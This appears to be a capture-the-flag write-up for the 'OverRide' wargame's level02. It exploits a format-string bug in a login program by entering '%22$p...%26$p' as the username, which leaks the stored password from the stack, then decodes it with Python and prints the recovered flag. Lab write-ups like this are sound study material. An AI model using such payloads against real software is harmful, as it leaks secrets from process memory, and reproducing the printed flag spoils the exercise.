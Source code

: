 test first :
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: a
--[ Password: b
*****************************************
a does not have access!

it print out he username.

after analyzing the assembly, the local variable "buffer3" stores the 41 byte of password. since in " 0x0000000000400aa2 <+654>:   callq  0x4006c0 <printf@plt>"
it printf out without format, so we can use format vulnerable to give the value which stores in local stack.

which ?nd of stack?
since buffer3 is from at (RBP - 0xa0) 
(0x00000000004008e6 <+210>:   lea    -0xa0(%rbp),%rax) - 160 byte and 
total stack size Allocate is 0x120 - 288 bytes
Parameter offset to reach our buffer = (288 - 160) / 8 + 1 = 22
the length of flag is 40 charater, so we need to get 5 stacks,

lets try:
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p%23$p%24$p%25$p%26$p
--[ Password: 
*****************************************
0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d does not have access! 

convert it to ascii in python:
```
hex_string = "0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d"
ascii_string = ''.join(part.decode('hex')[::-1] for part in hex_string.split('0x') if part)
print(ascii_string)
```

split('0x'):
- Splits the string into parts using 0x as the delimiter.
- This isolates each hexadecimal block.
decode('hex'):
- Converts each hexadecimal block into raw bytes.
[::-1]:
- Reverses the byte order (endian correction).
join():
- Combines all the decoded and reversed parts into a single ASCII string.


Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H